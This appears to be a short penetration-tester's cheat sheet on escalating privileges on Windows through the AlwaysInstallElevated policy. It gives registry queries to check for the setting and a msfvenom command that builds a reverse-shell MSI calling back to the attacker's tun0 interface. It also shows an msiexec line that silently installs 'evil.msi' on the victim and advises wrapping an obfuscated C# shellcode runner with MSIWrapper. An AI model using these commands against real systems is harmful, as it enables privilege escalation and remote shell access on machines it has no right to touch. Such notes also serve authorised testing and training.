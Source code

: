## AlwaysInstallElevated

- check from either winpeas or manual regkey enum
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
Msf's msi payload may not work
```bash
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f msi -o reverse.msi 
```
Use this instead
https://github.com/KINGSABRI/MSI-AlwaysInstallElevated



Execution on victim
```
msiexec.exe /quiet /qn /i evil.msi
```

### Via MSIWrapper

- Download from https://www.exemsi.com/download/
- Create an obfuscated C# shellcode runner and compile as exe and then pass it to the program

![alt text](image.png)

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

![alt text](image-4.png)